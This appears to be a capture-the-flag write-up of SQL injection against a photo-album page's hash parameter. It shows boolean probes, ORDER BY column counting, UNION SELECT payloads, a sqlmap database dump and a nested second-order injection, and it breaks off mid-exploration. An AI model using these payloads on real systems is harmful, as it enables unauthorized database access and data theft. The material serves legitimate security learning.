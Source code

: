 I realized I might not have given enough attention to the `/album?hash=jdh34k`. I tried the classic single quote and double quote, hopeful that I can trigger an error. Nothing. What about `jdh34k' and 1='1`. This incredibly worked.

Now I wanted to get this one by hand, just because I spent so much figuring out sqlmap for the other challenge, I was tired of it. I've gone old school. There's this [really nice tutorial](https://medium.com/bugbountywriteup/identifying-exploiting-sql-injection-manual-automated-79c932f0c9b5) that might be helpful to follow along.

| Payload | Status Code |
| ------- | :---------: |
| jdh34k' and 1='1 | 200 |
| jdh34k' and 1='0 | 404 |
| jdh34k' and 1='1';-- | 200 |

This one looks like it might be possible to output the results with `UNION`. The first step is to determine the number of columns with `ORDER BY`. The payload is `jdh34k' order by 3;--`. Then use UNION to see the possible outputs. Final payload is `jdh34k' and 1=0 union all select 1,2,3;--`.

{F1139782}

I noticed here that only the **3** is reflected on the page. Maybe the other two parameters are used for some stuff. Also, there are 2 photos on the page. If I change the 1 to a 2 or a 3, the number of photos will change as well. Anything else, and the photos will disappear.

I finally gave in and used sqlmap to have a better understanding of what I'm dealing with. I dumped everything. Using the data I got, I built the following diagram:

{F1139778}

Following the diagram, the vulnerable query should look something like this:

```sql
SELECT id, hash, name
FROM album
WHERE hash = '$input_hash'
```

Something also noteworthy from the diagram is that the `auth` parameter is not in the database. That means it might be generated at runtime? This gives me hope for a [Server Side Request Forgery](https://portswigger.net/web-security/ssrf) attack.

Going forward, I already figured out that the `hash` column might be useless. And in my mind, the `id` was somehow used to get these photos. And maybe that photos query is vulnerable as well. Tried the same payload, `1' and 1='1`, and I got the same number of photos. Tried `1='0`, and I got no photos as a result. LOL! This will be tough!

So basically, my initial payload was `jdh34k' and 1=0 union all select 1,2,3;--`, and the vulnerable parameter is 1. So the new payload is `jdh34k' and 1=0 union all select "1' and 1='1",2,3;--`... That's sick!

For simplicity, the table of payloads from below will include only the vulnerable parameter from inside:

| Payload | Num of Photos |
| ------- | :-----------: |
| 1' and 1='1 | 2 |
| 1' and 1='0 | 0 |
| 1' order by 3;-- | 2 |
| 1' order by 4;-- | 0 |
| 1' and 1=0 union all select 4,5,6;-- | 1 |
